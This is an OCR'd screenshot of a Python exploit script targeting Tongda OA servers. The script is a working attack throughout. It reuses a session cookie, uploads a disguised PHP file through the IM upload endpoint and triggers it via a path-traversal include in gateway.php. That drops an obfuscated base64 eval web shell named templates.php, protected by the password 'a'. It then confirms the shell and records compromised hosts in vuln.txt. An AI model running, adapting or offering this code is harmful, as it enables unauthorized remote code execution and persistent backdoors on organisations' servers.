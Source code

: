        return "123"


    def exp(u):
        uploadHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "multipart/form-data; boundary=----fuck123",
            "Referer": "https://google.com",
        }
        shellName = "templates.php"
        tongdaDir = "/"
        uploadFlag = "upload jpg shell"
        shellFlag = "sucess !!"
        webPath = tongdaDir + shellName
        printFlag = ""
    
        cookie = get_cookie(u)
        if cookie != "123":
            printFlag = "[Login]：" + u + "/general/index.php\t" + cookie + "\n"
        header["Cookie"] = cookie
    
        # password:a
        # POST method
        # base64.decode: <?php $a="~+d()"^"!{+{}";$b=${$a}["a"];eval("".$b);echo "sucess !!";?>
        b64Shell = "PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJhIl07ZXZhbCgiIi4kYik7ZWNobyAi" + base64.b64encode(shellFlag.encode("utf-8")).decode("utf-8") + "Ijs/Pg=="
        
        uploadData = "------fuck123\r\nContent-Disposition: form-data; name=\"UPLOAD_MODE\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"P\"\r\n\r\n" + cookie[cookie.find("=")+1:cookie.find(";")] + "\r\n------fuck123\r\nContent-Disposition: form-data; name=\"DEST_UID\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"ATTACHMENT\"; filename=\"jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php\r\nfile_put_contents($_SERVER[\"DOCUMENT_ROOT\"].\"/" + webPath + "\", base64_decode('" + b64Shell + "'));\r\necho \"" + uploadFlag + "\";\r\n?>\r\n------fuck123--"
        try:
            uploadHeader["Cookie"] = cookie
            req1 = requests.post(u + "/ispirit/im/upload.php", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
            text = req1.text
            if req1.status_code == 200 and "[vm]" in text:
                uploadFilePath = text[text.find("@")+1:text.find("|")].replace("_", "/")
                includeData = 'json={"url":"/general/../../attach/im/' + uploadFilePath + '.jpg"}'
                req2 = requests.post(u + "/mac/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 404 or uploadFlag not in req2.text:
                    req2 = requests.post(u + "/ispirit/interface/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
                if req2.status_code == 200 and uploadFlag in req2.text:
                    shellPath = u + webPath
                    req3 = requests.get(shellPath, headers=header, verify=False, timeout=25)
                    if shellFlag in req3.text:
                        printFlag = "[Getshell]：" + shellPath + "\t" + cookie + "\n"
                        wirte_targets(shellPath, "vuln.txt")
        except:
            pass
        print(printFlag, end="")
